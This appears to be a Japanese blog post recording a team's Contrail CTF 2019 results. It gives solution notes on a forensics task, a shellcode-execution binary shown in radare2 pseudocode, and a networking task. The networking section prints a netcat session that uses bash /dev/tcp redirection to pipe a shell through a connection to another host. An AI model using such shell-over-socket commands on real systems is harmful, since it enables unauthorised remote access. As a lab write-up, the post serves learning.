 --
date: 2020-01-04
description: 'Contrail CTF 参加記録'
tags:
 - 雑記
---

# Contrail CTF 参加記録と解き直し

SCBで出て, Score302, 25位でした。
そのうち, 私は以下の問題を解きました。

 - debug_port: network
 - Persistence: forensics
 
では, 解き直しをやっていき

## forensics
### Persistence
`.arn`ファイルが与えられます。  
これはAutorunsの拡張子なので, 開いて中身を確認します。

Task Schedulerに`\Evil`というプロセスが残っているので中身を確認するとflagがあります。

### alice's password
正しくunzipできないzipファイルとdataが与えられます。

## Pwn
### EasyShellCode
20Byte(0x14)までしかread()してくれない。
そのあとはシェルコードを実行してくれる。

radare2で逆アセンブルする。

```
# r2 problem 
[0x00000710]> aaaa
[Cannot analyze at 0x00000700g with sym. and entry0 (aa)
[x] Analyze all flags starting with sym. and entry0 (aa)
[Cannot analyze at 0x00000700ac)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00000710]> s main
[0x0000081a]> pdd
/* r2dec pseudo code output */
/* problem @ 0x81a */
#include <stdint.h>
 
int32_t main (void) {
    rax = *(fs:0x28);
    *((rbp - 8)) = rax;
    eax = 0;
    r9d = 0;
    r8d = 0;
    rax = mmap (0, 0x64, 7, 0x22, r8d, r9d);
    *((rbp - 0x10)) = rax;
    eax = 0;
    printf ("Input your shellcode: ");
    rax = stdout;
    fflush (*(obj.stdout));
    rax = *((rbp - 0x10));
    read (0, rax, 0x14);
    rax = *((rbp - 0x10));
    edx = 7;
    esi = 0x64;
    rdi = rax;
    mprotect ();
    rax = rbp - 0x10;
    rdx = 0;
    rdi = 0;
    rsi = 0;
    rbx = 0;
    rcx = 0;
    r8 = 0;
    r9 = 0;
    r10 = 0;
    r11 = 0;
    r12 = 0;
    r13 = 0;
    r14 = 0;
    r15 = 0;
    rbp = 0;
    return uint64_t (*rax)() ();
}
```

最後の行で`uint64_t (*rax)() ();`を実行しているので, `read (0, rax, 0x14);`でシェルコードを読み込めれば問題なく実行できそう。  


これは, 引数が空で返り値がuint64_tな関数へのポインタであり, raxから始まるアドレスに格納されているアドレスを間接参照で読み出します。

 - [詳しくはこちらを見ると良い](https://www.sigbus.info/compilerbook#type)


## Misc
### Let's connct
```
$ nc 114.177.250.4 2999
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.4$ help
help
GNU bash, version 4.4.20(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.

A star (*) next to a name means that the command is disabled.

 job_spec [&]                            history [-c] [-d offset] [n] or hist>
 (( expression ))                        if COMMANDS; then COMMANDS; [ elif C>
 . filename [arguments]                  jobs [-lnprs] [jobspec ...] or jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] name[=value] ...
 alias [-p] [name[=value] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d delim] [-n count] [-O or>
 bind [-lpsvPSVX] [-m keymap] [-f file>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | dir]
 caller [expr]                           pwd [-LP]
 case WORD in [PATTERN [| PATTERN]...)>  read [-ers] [-a array] [-d delim] [->
 cd [-L|[-P [-e]] [-@]] [dir]            readarray [-n count] [-O origin] [-s>
 command [-pVv] command [arg ...]        readonly [-aAf] [name[=value] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NAME [in WORDS ... ;] do COMM>
 compopt [-o|+o option] [-DE] [name ..>  set [-abefhkmnptuvxBCHP] [-o option->
 continue [n]                            shift [n]
 coproc [NAME] command [redirections]    shopt [-pqsu] [-o] [optname ...]
 declare [-aAfFgilnrtux] [-p] [name[=v>  source filename [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f filename] [na>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a name] [command [argume>  true
 exit [n]                                type [-afptP] name [name ...]
 export [-fn] [name[=value] ...] or ex>  typeset [-aAfFgilnrtux] [-p] name[=v>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [first] [last] o>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] name [name ...]
 for NAME [in WORDS ... ] ; do COMMAND>  unset [-f] [-v] [-n] [name ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDS; do COMMANDS; done
 function name { COMMANDS ; } or name >  variables - Names and meanings of so>
 getopts optstring name [arg]            wait [-n] [id ...]
 hash [-lr] [-p pathname] [-dt] [name >  while COMMANDS; do COMMANDS; done
 help [-dms] [pattern ...]               { COMMANDS ; }
bash-4.4history
history
    1  help
    2  history
bash-4.4$ history
history
    1  help
    2  history
    3  history
bash-4.4$ exec <> /dev/tcp/172.17.0.10/3000
exec <> /dev/tcp/172.17.0.10/3000
bash: connect: Connection refused
bash: /dev/tcp/172.17.0.10/3000: Connection refused
bash-4.4$ ls
ls
bash
bin
dev
flag
lib
lib32
lib64
bash-4.4$ echo "$(<flag)"
 echo "$(<flag)"
Flag has moved to 3000 port on 172.17.0.5 .
bash-4.4$ exec 3<> /dev/tcp/172.17.0.5/3000; ./bash <&3
```

## ref
 - [Contrail CTF writeup by aqua](https://www.aquablog.site/entry/2020/01/04/000000)
 - [ContrailCTF\_2019のwriteup by Tsubasa](http://szarny.hatenablog.com/entry/2020/01/04/ContrailCTF_2019%E3%81%AEwriteup)
 - [Contrail CTF WriteUp by ryoto](https://www.ryotosaito.com/blog/?p=400)
 - [Contrail CTF 2019のWriteup by ptr-yudai](https://ptr-yudai.hatenablog.com/entry/2020/01/04/000225)

